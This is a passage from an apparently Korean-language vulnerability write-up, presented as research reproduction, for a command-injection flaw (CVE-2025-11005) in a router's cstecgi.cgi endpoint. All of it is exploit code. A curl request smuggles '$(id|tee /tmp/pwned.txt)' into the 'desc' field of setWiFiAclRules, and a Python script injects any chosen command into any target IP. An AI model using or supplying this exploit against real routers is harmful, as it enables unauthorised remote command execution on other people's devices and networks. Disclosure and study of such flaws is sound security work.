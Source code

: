 
## 4. Exploit (연구 재현용)

### 4.1 PoC

#### 4.1.1 curl을 이용한 공격

```bash
curl 'http://<ROUTER_IP>/cgi-bin/cstecgi.cgi' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -X POST \
  --data-raw '{"topicurl":"setWiFiAclRules","mac":"AA:BB:CC:DD:EE:FF","desc":"$(id|tee /tmp/pwned.txt)","addEffect":"1","wifiIdx":"0"}'
```

#### 4.1.2 Python PoC (exploit.py)

```python
#!/usr/bin/env python3
import requests
import argparse
import json

def exploit(target_ip, command):
    target_url = f"http://{target_ip}/cgi-bin/cstecgi.cgi"
    
    headers = {"Content-Type": "application/json;charset=UTF-8"}
    payload = f"$({command})"
    
    data = {
        "topicurl": "setWiFiAclRules",
        "mac": "AA:BB:CC:DD:EE:FF",
        "desc": payload,
        "addEffect": "1",
        "wifiIdx": "0"
    }
    
    response = requests.post(target_url, headers=headers, 
                           data=json.dumps(data), timeout=10)
    
    if response.status_code == 200:
        print("[+] 공격 성공!")
        print(f"[*] '{command}' 실행 결과를 라우터에서 확인하세요.")
    else:
        print(f"[-] 공격 실패: {response.text}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="CVE-2025-11005 PoC")
    parser.add_argument("target_ip", help="타겟 라우터 IP")
    parser.add_argument("command", help="실행할 명령어")
    args = parser.parse_args()
    
    exploit(args.target_ip, args.command)
```
